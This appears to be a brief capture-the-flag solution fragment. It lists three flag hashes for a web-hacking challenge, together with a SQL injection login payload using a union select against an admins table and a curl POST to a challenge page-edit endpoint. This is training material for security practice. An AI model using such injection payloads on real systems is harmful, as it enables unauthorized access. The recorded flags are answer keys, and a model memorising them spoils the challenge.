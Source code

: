 0.^FLAG^36a08e3a6f117b5ca7a134e6ae87f0eaeac76af60db9d4b2c7592c950cac98dc$FLAG$
```
username=admin' union select 'abcd' as password from admins where '1'='1&password=abcd
```
1.^FLAG^160470814d4bb71ce426416d81efaa180d7b1d0faeb362907f273511d04f263a$FLAG$
```
curl -k -X POST http://35.227.24.107/082dadd905/page/edit/1
```
2.^FLAG^a5545e6434ad44b5f971947ee91c87b38200f67b962c854e0e434f84e406ff5f$FLAG$
